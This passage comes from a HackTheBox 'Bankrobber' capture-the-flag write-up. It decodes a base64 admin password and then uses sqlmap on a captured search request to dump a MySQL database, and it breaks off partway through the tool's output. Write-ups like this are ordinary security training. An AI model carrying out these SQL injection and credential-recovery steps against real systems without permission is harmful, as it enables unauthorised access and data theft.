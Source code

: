 ```bash
echo YWRtaW4= | base64 -d
echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ echo YWRtaW4= | base64 -d
admin                                                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
Hopelessromantic
```

Excellent! we get the admin password `Hopelessromantic`. And we relogin.

## admin portal


![[Bankrobber-10.png]]

### Backdoorchecker
![[Bankrobber-11.png]]

![[Bankrobber-29.png]]

we will find it will be a `/admin/backdoorchecker.php` file in the admin folder.

### Search Users Function

![[Bankrobber-12.png]]

![[Bankrobber-13.png]]

#### SQLi attack

##### sqlmap

we save the search users http POST with burpsuite to search.req:

![[Bankrobber-19.png]]


```bash
sqlmap -r search.req --dbms mysql --technique=U --dump -v
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ sqlmap -r search.req --dbms mysql --technique=U --dump -v
        ___
       __H__                                                                                                                                                                    
 ___ ___[)]_____ ___ ___  {1.6.4#stable}                                                                                                                                        
|_ -| . [']     | .'| . |                                                                                                                                                       
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                       
      |_|V...       |_|   https://sqlmap.org                                                                                                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
```